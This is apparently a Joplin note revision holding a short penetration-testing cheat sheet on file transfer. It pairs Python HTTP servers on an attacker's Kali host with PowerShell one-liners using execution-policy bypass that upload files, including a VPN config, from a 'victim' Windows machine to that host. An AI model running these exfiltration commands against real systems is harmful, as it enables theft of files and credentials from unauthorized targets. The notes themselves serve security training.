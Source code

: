 id: c8aa31e80c394f23a8ce1677dfe437b6
parent_id: 
item_type: 1
item_id: 6542c907ee3d4b659b0fd7588c5dbe48
item_updated_time: 1642578262874
title_diff: "[{\"diffs\":[[1,\"Web Server\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":10}]"
body_diff: "[{\"diffs\":[[1,\"Download or Upload files by setting up a webserver\\\n\\\nFrom Client(Victim):\\\n\\\n# Download: Just turn on webserver in the folder\\\n\\\n> python2 -m SimpleHTTPServer 8000\\\n> \\\n> sudo python3 -m http.server 8001\\\n\\\n# Upload:\\\n\\\nTurn on the upload server in /var/www/html:\\\n\\\n> python3 http-server.py -p 8000 --no-ssl\\\n\\\nOn the client side, Use powershell commands to send the file\\\n\\\n> (New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\n> \\\n> powershell -nop -exec bypass -c \\\"(New-Object System.Net.WebClient).UploadFile('http://127.0.0.1:8000/', 'lincoln.lg.ovpn')\\\"\\\n\\\nIf we want to send text, we can use PUT command\\\n\\\n> Invoke-RestMethod -Uri \\\"http://127.0.0.1:8000/Hello.txt\\\" -Method PUT -Body \\\"Hello\\\"\\\n\\\n# Old upload method:\\\n\\\n- Start http server in /var/www/html/:\\\n    - sudo python2 -m SimpleHTTPServer 8001\\\n- Run the following powershell code in the Windows Host:\\\n    - powershell.exe -c \\\"(New-Object System.Net.WebClient).UploadFile('http://192.168.19.29:8001/upload.php', '<file to=\\\"\\\" upload=\\\"\\\">')\\\"</file>\\\n- Find the file in Kali under /var/www/uploads/\\\n\\\n> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'\\\n\\\nhttps://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1329}]"
metadata_diff: {"new":{"id":"6542c907ee3d4b659b0fd7588c5dbe48","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.705Z
created_time: 2022-02-28T02:44:25.705Z
type_: 13